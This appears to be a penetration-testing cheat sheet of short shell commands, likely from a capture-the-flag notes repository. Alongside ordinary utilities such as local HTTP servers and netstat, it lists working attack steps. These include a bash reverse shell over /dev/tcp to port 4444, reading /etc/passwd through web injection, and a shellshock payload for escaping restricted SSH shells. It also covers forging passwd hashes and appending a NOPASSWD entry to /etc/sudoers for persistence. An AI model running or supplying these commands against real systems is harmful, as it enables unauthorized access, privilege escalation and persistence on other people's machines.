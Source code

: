 Proper bash shell:

```shell
python -c 'import pty; pty.spawn("/bin/bash")'
```

Print all users in /etc/passwd from web injection:

```shell
cat /etc/passwd | awk -F':' '{print $1}'
```

Replace each ',' with a newline:

```shell
echo -n 'kas:asddas,asdkjlaskjdlasd:asda,asdasasd:aaaaaa' | sed 's/,/\n/g'
```

Print all text between |> and <| on a new line

```shell
grep -shzoP "(\|>)(.*?)(<\|)" response | sed  "s/|>/ /g" | sed "s/<|/\n/g"
find / -name "test.py" -type f 2>/dev/null
```

Port knocking:

```shell
nmap $TARGET_IP -p 7469,8475,9842 -r --max-retries 0 --max-parallelism 1 -sT --scan-delay 200ms --max-rtt-timeout 200ms -Pn
```

```shell
nc -z $TARGET_IP PORT1 PORT2 PORT3
```


Generate user password for use in /etc/passwd

```shell
openssl passwd -1 -salt salt password
```

Get all users with history:

```bash
find /home -name .bash_history -exec wc -l {} \; 2>/dev/null | sort | grep -v "^0"
```

Find all "test.py" files

```bash
find / -name "test.py" -type f 2>/dev/null
```

List all sudo commands for user:

```shell
sudo -l
```

Start HTTP server

```shell
python3 -m http.server
```

```shell
python -m SimpleHTTPServer
```

```shell
ruby -run -e httpd path/to/your/project -p 80
```

```shell
php -S 0.0.0.0:80
```

Escape profile restricted bash accounts with SSH access

```shell
ssh $USERNAME@$TARGET_IP -t "bash --noprofile"
```

```shell
echo os.system("/bin/bash")
```

Other methods:

```shell
ssh $USERNAME@TARGET_IP -t "/bin/sh" or "/bin/bash"
```

```shell
#shellshock
ssh $USERNAME@TARGET_IP -t "() { :; }; /bin/bash"
```

Login using SSH key file

```bash
ssh -i private_id_rsa USER@$TARGET_IP -t "bash --noprofile"
```

Check for ports that are opened on other network devices

```bash
netstat -antup
```

```bash
ss -tunlp
```

---

Add current directory to the PATH variable:

```shell
export PATH=$PWD:$PATH
```

or use with SUDO:

```shell
sudo PATH=$PWD:$PATH /path/to/executable
```

---

Reverse shell to port 4444:
---
```shell
bash -c "bash -i >& /dev/tcp/$LOCAL_IP/4444 0>&1"
```

Assign user an id in case of NFS / mount
---
```shell
usermod -u $U_ID $USERNAME
```

Assign an id to a group
---
```shell
groupmod -g $GROUP_ID $GROUP_NAME
```

Add user to sudo
---
```shell
usermod -aG sudo $USERNAME
```

---

Add user to SUDOers:
---
```bash
echo "$USERNAME  ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
```

---


Connect using SSH in case of old/weird encryption:
---

```shell
ssh -oHostKeyAlgorithms=+ssh-dss $USER@$TARGET_IP
```

or

```shell
ssh -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa $USER@$TARGET_IP
```

---
**Python install from setup.py**
---

```shell
pip . install
```